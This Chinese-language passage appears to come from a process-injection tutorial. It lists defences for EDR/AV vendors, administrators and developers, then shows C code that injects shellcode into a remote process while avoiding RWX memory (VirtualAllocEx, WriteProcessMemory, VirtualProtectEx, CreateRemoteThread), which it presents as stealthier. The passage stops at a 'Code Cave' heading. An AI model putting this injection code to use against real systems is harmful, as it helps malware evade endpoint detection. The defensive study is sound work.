### 防御建议

**对于 EDR/AV**:
- 监控 RWX 内存分配
- Hook CreateRemoteThread
- 扫描可执行内存的 shellcode 签名
- 检测远程线程入口点合法性
- 监控可疑 API 调用序列

**对于管理员**:
- 使用 Windows Defender Exploit Guard
- 启用 CFG (Control Flow Guard)
- 使用 Protected Process
- 限制跨进程权限

**对于开发者**:
- 实施进程完整性检查
```c
// 定期扫描自己的内存
for (each memory region) {
    if (Protection == PAGE_EXECUTE_READWRITE) {
        if (!IsMyCode(region)) {
            TerminateProcess(GetCurrentProcess(), 0);
        }
    }
}
```

## 进阶技术

### 1. 避免 RWX - W^X 原则

**Write XOR Execute**: 内存要么可写，要么可执行，不能同时

```c
// 步骤 1: 分配 RW
LPVOID mem = VirtualAllocEx(hProcess, NULL, size,
                            MEM_COMMIT, PAGE_READWRITE);

// 步骤 2: 写入 shellcode
WriteProcessMemory(hProcess, mem, shellcode, size, NULL);

// 步骤 3: 改为 RX（不可写了）
DWORD oldProtect;
VirtualProtectEx(hProcess, mem, size, PAGE_EXECUTE_READ, &oldProtect);

// 步骤 4: 执行
CreateRemoteThread(hProcess, NULL, 0, mem, NULL, 0, NULL);
```

**优势**: 避免 RWX，更隐蔽

### 2. 使用 Code Cave
